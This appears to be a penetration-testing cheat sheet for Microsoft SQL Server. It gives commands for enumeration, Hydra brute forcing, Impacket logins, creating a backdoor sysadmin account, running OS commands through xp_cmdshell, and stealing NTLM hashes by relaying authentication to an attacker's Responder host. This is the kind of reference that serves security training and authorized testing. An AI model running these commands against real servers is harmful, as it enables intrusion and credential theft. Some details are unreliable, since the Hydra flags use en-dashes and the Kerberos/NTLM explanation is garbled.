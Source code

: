 ```yaml
---
title: MSSQL (Microsoft SQL) Pentesting
description: MSSQL is a relational database management system. A default port is 1433.
tags:
    - Database
    - Windows
refs:
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
date: 2023-03-05
draft: false
---
```


## Enumeration

```sh
nmap --script ms-sql-info -p 1433 <target-ip>
nmap --script ms-sql-config -p 1433 <target-ip>
nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
nmap --script ms-sql-* -p 1433 <target-ip>

# Metasploit
msfconsole
msf> use admin/mssql/mssql_enum
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
```

### Brute Force Credentials

```sh
hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```

<br />

## Connect

### Impacket

```sh
# impacket
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth

# sqsh
sqsh -S <target-ip> -U username -P password
sqsh -S <target-ip> -U username -P password -D database
```

<br />

## Commands

```sh
# Get all users
> SELECT * FROM sys.database_principals

# Switch to the database
> USE <database>

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>

# Get the version of MSSQL
> SELECT @@version

# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# Get current username
> SELECT user_name()
```

<br />

## Spawn a Windows Command Shell and Run Commands using Impacket

If we connected MSSQL using **impacket**, we can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

### Enable/Disable a Windows Shell

```powershell
> enable_xp_cmdshell
> disable_xp_cmdshell
```

### Commands

We can execute commands the same as Windows Command Prompt.

```powershell
# Get current user
> xp_cmdshell whoami

# Show files and directories
> xp_cmdshell dir
> xp_cmdshell dir \Users
# Show hidden files
> xp_cmdshell dir /a

# Get current directory
> xp_cmdshell cd

# Get contents of file
> xp_cmdshell more \Users\Administrator\example.txt
> xp_cmdshell type \Users\Administrator\example.txt
```

<br />

## Privilege Escalation

```bash
msfconsole
msf> use exploit/windows/mssql/mssql_linkcrawler
```

<br />

## Get NTLM Hash

MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

### 1. Start SMB Server and Responder

First we need to start a SMB server and Responder in each terminal.

```bash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### 2. Execute with Metasploit

In msfconsole, select the following module.

We need to set the “SMBPROXY” option to the Responder IP (this ip is displayed when starting Responder in terminal).

```bash
msfconsole
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
msf> set rhosts <target_ip>
msf> set username <username>
msf> set password <password>
msf> set smbproxy <responder_ip>
msf> run
```

When executing, we can see the NTLM hash in the terminal where SMB server is running.